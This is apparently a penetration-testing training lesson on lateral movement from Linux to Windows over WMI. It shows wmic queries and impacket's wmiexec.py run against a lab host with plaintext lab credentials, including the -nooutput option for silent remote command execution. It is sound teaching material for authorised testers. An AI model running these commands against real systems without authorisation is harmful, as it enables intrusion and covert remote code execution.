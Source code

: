 **Note:** The WMIC utility is deprecated as of Windows 10, version 21H1, and the 21H1 semi-annual channel release of Windows Server. This utility has been replaced by Windows PowerShell for WMI tasks. For more details, refer to [Chapter 7 - Working with WMI](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi). Note that this deprecation only affects the WMIC utility itself; Windows Management Instrumentation (WMI) remains unaffected. For further information, see the list of [Windows 10 features no longer under development](https://learn.microsoft.com/en-us/windows/deployment/planning/windows-10-deprecated-features).

## Lateral Movement From Linux

Interacting with Windows Management Instrumentation (WMI) from a Linux system can be accomplished using various tools and libraries that support the WMI protocol. Below are some commonly used tools for this purpose. `wmic` is a command-line tool that allows you to interact with WMI from Linux. It provides a straightforward way to query and manage Windows systems. To install `wmic`, you need to install the `wmi-client` package. On Debian-based systems, you can install it using the following commands:

```shell-session
BusySec@htb[/htb]$ sudo apt-get install wmi-client
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  wmi-client
0 upgraded, 1 newly installed, 0 to remove and 73 not upgraded.
...SNIP...
```

Once installed, we can use `wmic` to run queries against a remote Windows machine. Here's an example of querying the operating system details:

```shell-session
BusySec@htb[/htb]$ wmic -U inlanefreight.local/helen%RedRiot88 //172.20.0.52 "SELECT Caption, CSDVersion, OSArchitecture, Version FROM Win32_OperatingSystem"
CLASS: Win32_OperatingSystem
Caption|CSDVersion|OSArchitecture|Version
Microsoft Windows Server 2019 Standard|(null)|64-bit|10.0.17763
```

Additionally, `impacket` includes the built-in script [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) for executing commands using WMI. Keep in mind that `wmiexec.py` uses port 445 to retrieve the output of the command and if port 445 is blocked, it won't work. If we want to omit the output, we can use the options `-silentcommand` or `-nooutput`:

```shell-session
BusySec@htb[/htb]$ wmiexec.py inlanefreight/helen:RedRiot88@172.20.0.52 whoami
Impacket v0.12.0.dev1+20240523.75507.15eff88 - Copyright 2023 Fortra

[-] [Errno Connection error (172.20.0.52:445)] timed out
```

```shell-session
BusySec@htb[/htb]$ wmiexec.py inlanefreight/helen:RedRiot88@172.20.0.52 whoami -nooutput
Impacket v0.12.0.dev1+20240523.75507.15eff88 - Copyright 2023 Fortra
```
